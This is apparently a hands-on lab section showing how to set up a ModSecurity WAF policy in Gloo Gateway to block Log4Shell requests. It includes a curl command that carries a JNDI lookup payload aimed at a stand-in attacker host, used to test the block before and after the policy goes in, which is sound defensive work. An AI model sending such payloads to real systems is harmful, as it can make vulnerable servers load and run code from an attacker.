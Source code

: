 # Web Application Firewall

Gloo Gateway utilizes OWASP ModSecurity to add WAF features into the Istio ingress gateway. Not only can you enable the [OWASP Core Rule Set](https://owasp.org/www-project-modsecurity-core-rule-set/) easily, but also you can enable many other advanced features to protect your applications.

In this section of the lab, take a quick look at how to prevent the `log4j` exploit that was discovered in late 2021. For more details, you can review the [Gloo Edge blog](https://www.solo.io/blog/block-log4shell-attacks-with-gloo-edge/) that this implementation is based on.

1. Refer to following diagram from Swiss CERT to learn how the `log4j` attack works. Note that a JNDI lookup is inserted into a header field that is logged.
![log4j exploit](../images/log4j_attack.png)

2. Confirm that a malicious JNDI request currently succeeds. Note the `200` success response. Later, you create a WAF policy to block such requests.

```sh
curl -ik -X POST -H "User-Agent: \${jndi:ldap://evil.com/x}" -H "Host: checkout.solo.io" https://$GLOO_GATEWAY_HTTPS/shipping/quote
```

3. With the Gloo WAF policy custom resource, you can create reusable policies for ModSecurity. Review the `log4j` WAF policy which will apply to the checkout routes. 
```sh
kubectl apply -f 11-web-application-firewall/waf-policy.yaml
```

4. Try the previous request again.

```sh
curl -ik -X POST -H "User-Agent: \${jndi:ldap://evil.com/x}" -H "Host: checkout.solo.io" https://$GLOO_GATEWAY_HTTPS/shipping/quote
```

Note that the request is now blocked with the custom intervention message from the WAF policy.

```sh
HTTP/2 403
content-length: 27
content-type: text/plain
date: Wed, 18 May 2022 21:20:34 GMT
server: istio-envoy

Log4Shell malicious payload
```

Your frontend app is no longer susceptible to `log4j` attacks, nice!